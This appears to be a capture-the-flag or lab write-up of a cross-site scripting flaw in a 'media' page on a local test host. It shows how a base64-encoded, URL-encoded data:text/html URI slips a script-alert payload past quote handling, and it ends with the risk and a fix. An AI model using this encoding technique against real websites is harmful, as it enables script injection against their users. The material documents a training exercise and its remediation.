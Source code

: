 # Media

http://192.168.56.101/index.php?page=media&src=nsa

`src` argument inserted directly into `data` field of `object` tag

```html
<object data="http://192.168.56.101/images/nsa_prism.jpg"></object>
```

Injecting html normally won't work because quotation marks are handled properly

It is possible, however, to inject serialized html

```bash
$ echo '<script>alert("WHEE")</script>' | base64
PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ+Cg==
```

This produces a serialized version of the script to be run

Replacing special characters leaves us with `PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ%2BCg%3D%3D`

Setting a few more options to be run allows us to embed any html into the webpage like this

```html
http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ%2BCg%3D%3D
```

## Risk

User can execute arbitrary code on client machine

## Fix

Don't display exactly what the user gives you

Encode it or use a table of expected values

## Note

This is terribly set up.  It seems to be looking for exactly `<script>alert`

Sending `<script>print("WHEE")</script>` runs the javascript, but does not print the flag
